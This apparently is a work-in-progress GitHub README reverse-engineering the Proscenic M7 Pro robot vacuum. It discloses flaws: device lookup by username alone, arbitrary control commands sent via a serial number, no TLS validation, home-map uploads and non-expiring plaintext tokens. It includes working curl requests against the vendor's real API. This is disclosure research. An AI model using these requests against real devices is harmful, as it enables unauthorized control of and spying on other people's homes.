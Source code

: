 # Proscenic M7 Pro - reverse engineering

> This is a WIP.

## Firmware
Firmware update was acquired by tcpdumping the robot's traffic.
The URL was `http://47.254.154.181/robotDrivers/1593772189366`.

This is good, so we can exploit the firmware update mechanism to install our own software.
But up to now, I don't know, how the firmware update mechanism works.

You can find the latest firmware (as of 06.12.2020) in `./firmware.bin`.

[binwalk](https://github.com/ReFirmLabs/binwalk) is used for decompressiong the firmware: `binwalk -eM firmware.bin`.

## App
Logging in
```bash
LOGINUSER=iot@example.com
PASSWORD=very-secure
curl -v -k -X POST -H "os: i" -H "Content-Type: application/json" -H "c: 338" -H "lan: en" -H "Host: mobile.proscenic.com.de:443" -H "User-Agent: ProscenicHome/1.7.8 (iPhone; iOS 14.2.1; Scale/3.00)" -H "v: 1.7.8" -d "{\"state\":\"欧洲\",\"countryCode\":\"49\",\"appVer\":\"1.7.8\",\"type\":\"2\",\"os\":\"IOS\",\"password\":\"$(echo -n $PASSWORD | md5sum)\",\"registrationId\":\"13165ffa4eb156ac484\",\"language\":\"EN\",\"username\":\"$LOGINUSER\",\"pwd\":\"$PASSWORD\"}" "https://mobile.proscenic.com.de/user/login"
```
response
```json
{
  "code": 0,
  "msg": "success",
  "data": {
    "token": "<redacted>",
    "uid": "<redacted>",
    "equipcount": 0,
    "nickname": null,
    "recieveMsg": false,
    "countryCode": "49",
    "homeId": null
  }
}
```

Get list of devices:
> **Findind #1**: No login (only username) required
```bash
curl "https://mobile.proscenic.com.de/user/getEquips/$LOGINUSER"  -d "username=$LOGINUSER"
```
response
```json
"content": [
      {
        "name": "M7 Pro",
        "code": "M7_PRO",
        "typeName": "CleanRobot",
        "model": "811_LDS",
        "sn": "<redacted>",
        "deviceId": null,
        "status": true,
        "imgUrl": "http://mobile.proscenic.com.de/images/M7_PRO.png",
        "homeId": null,
        "shared": false,
        "jump": "M7_PRO",
        "ctrlversion": null,
        "enabled": true,
        "scMac": null,
        "scSV": null,
        "faqUrl": "https://www.proscenic.com/support/faq-f0460-l9999.html",
        "cloud": 0,
        "type": "CleanRobot"
      }
]
```

**Finding 2**: The serial number retrieved from above can be used to send arbitrary commands:
```java
    @FormUrlEncoded
    @POST("/instructions/{sn}/{cmdCode}")
    Observable<Result> control(@Field("username") String str, @Path("sn") String str2, @Path("cmdCode") int i, @Field("ctrlCode") String str3);
```
E.g.:
```bash
curl -X POST  -d "charge=start" "https://mobile.proscenic.com.de/instructions/$SN/21012?username=$LOGINUSER"
```

Communication with the robot is primarily relayed through a cloud server.

For you convenience, I've included `./getSockAddr.sh`. Read it and then provide it with `username password`.

## The vacuum robot software
**Finding 3**: The vacuum robot does not perform TLS validation.
Using [sslsplit](https://github.com/droe/sslsplit) we can see, what the robot is talking with its manufacturer.

**Finding 4**: This robot is spying on you: It uploads a map of your home. As can be seen using sslsplit:
```
POST /cleanPack/uploadEvents HTTP/1.1
Host: 47.254.140.182
Accept: */*
Cookie: cookies=<redacted>
Content-Length: 1593
Content-Type: application/x-www-form-urlencoded
Expect: 100-continue

HTTP/1.1 100 Continue

sn=LSLDSM7PRO20510667&ts=348470&data={"infoType":20002,"data":{"SN":"LSLDSM7PRO20510667","mapId":1607215533,"autoAreaId":0,"pathId":1607237159,"width":109,"height":98,"resolution":0.05,"x_min":-4.93,"y_min":-2.83,"lz4_len":935,"area":[],"map":<redacted>
```

**Finding 5**: The app reveals the crypto token plaintext while communicating with the robot through the gateway.
```
{"data":{"token":"<redacted>","sn":"<redacted>"},"infoType":70001}#	#
```
this is sent to the IP and port retrieved by `getSockAddr`.

**Finding 6**: Old tokens (fetched with the script) don't expire. Even if the app only allows for one simultanous login.

**TLDR**: Don't buy this crap.
